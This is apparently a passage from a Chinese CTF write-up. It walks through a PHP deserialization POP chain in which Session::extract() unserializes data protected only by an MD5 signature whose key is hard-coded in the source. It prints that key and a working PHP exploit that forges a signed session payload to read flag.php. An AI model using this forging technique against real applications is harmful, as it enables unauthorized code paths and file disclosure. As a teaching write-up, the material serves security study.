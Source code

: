 pop链很明确，就看如何触发反序列化了。

第137行`Session::extract()`:

```php
public function extract($session){

        $sess_array = explode(".", $session);
        $data = base64_decode($sess_array[0]);
        $sign = base64_decode($sess_array[1]);

        if($sign === md5($data . self::secret_key)){
            $this->sessiondata = unserialize($data);
        }else{
            unset($this->sessiondata);
            die("go away! you hacker!");
        }
```

他会把session的`.`前面的内容反序列化，并且会做一个加盐的判断，但是密钥在103行已经给了

```php
const SECRET_KEY = "7tH1PKviC9ncELTA1fPysf6NYq7z7IA9";
```

那么我们可以编写一个exp：

```php
<?php
class Eeeeeeevallllllll
{
    public $msg = 'a';

}

class CardsPool
{

    public $cards;
    private $file = 'flag.php';

}

$pop = new Eeeeeeevallllllll();
$pop->msg = new CardsPool();
//echo serialize($pop);
$key = "7tH1PKviC9ncELTA1fPysf6NYq7z7IA9";
$sign = md5(serialize($pop).$key);
$payload = base64_encode(serialize($pop)).'.'.base64_encode($sign);
echo $payload;
/*
$sess_array = explode(".", $payload);
$data = base64_decode($sess_array[0]);
echo $data,"\n";
$sign = base64_decode($sess_array[1]);
echo $sign,"\n";
if($sign === md5($data . $key)){
    unserialize($data);
}else{
    echo $sign;
    die("go away! you hacker!");
}
*/

```
